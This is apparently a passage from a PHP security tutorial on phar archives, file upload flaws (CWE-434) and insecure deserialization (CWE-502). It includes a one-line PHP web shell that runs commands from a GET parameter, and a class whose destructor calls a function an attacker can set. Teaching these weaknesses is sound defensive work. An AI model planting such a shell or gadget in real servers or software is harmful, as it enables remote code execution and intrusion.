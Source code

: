 
In this code, stub is `<?php __HALT_COMPILER(); ?>`, manifest or Phar Metadata is $obj (new User class) and file contents is text from test.txt file. Now we can build it with a simple command:

`php -d phar.readonly=0 phar.php`

What is phar.readonly ? For security, this setting will allow us to create and modify using phar stream, by default this is enable: [phar.readonly option](https://www.php.net/manual/en/phar.configuration.php#:~:text=the%20configuration%20directives.-,phar.readonly%20bool,-This%20option%20disables)

### File upload vulnerability

File upload vulnerability or [CWE-434](https://cwe.mitre.org/data/definitions/434.html) is a common weakness in a web server. A user may upload unexpected or non-standard files, which can alter the server’s behavior and potentially lead to serious issues such as Remote Code Execution (RCE). POC:

A user can upload a simple shell if the server don't strictly filter it

```php
<?php
system($_GET["cmd"]);
?>
```

And we can run php file in apache server

![image](https://hackmd.io/_uploads/Hybbt6bdll.png)


### Insecure Deserialization

Insecure Deserialization or [CWE-502](https://cwe.mitre.org/data/definitions/502.html) covers insecure deserialization of untrusted data. Attackers can manipulate serialized objects to execute arbitrary code, especially using magic methods like __wakeup(), __destruct(), and __toString().

POC:

Imagine we have a simple class that will create a JSON file based on the $name argument passed to the class.

```php
<?php
class User{
    private $name;
    private $age;
    private $func = "touch";
    function __construct($name, $age){
        $this->name = $name;
        $this->age = $age;
    }
    function __destruct(){
        call_user_func( $this->func, 'user/'.$this->name.'.json' );
    }
}

$a = new User('winky', 18);
?>
```
![image](https://hackmd.io/_uploads/r1scipbOgg.png)
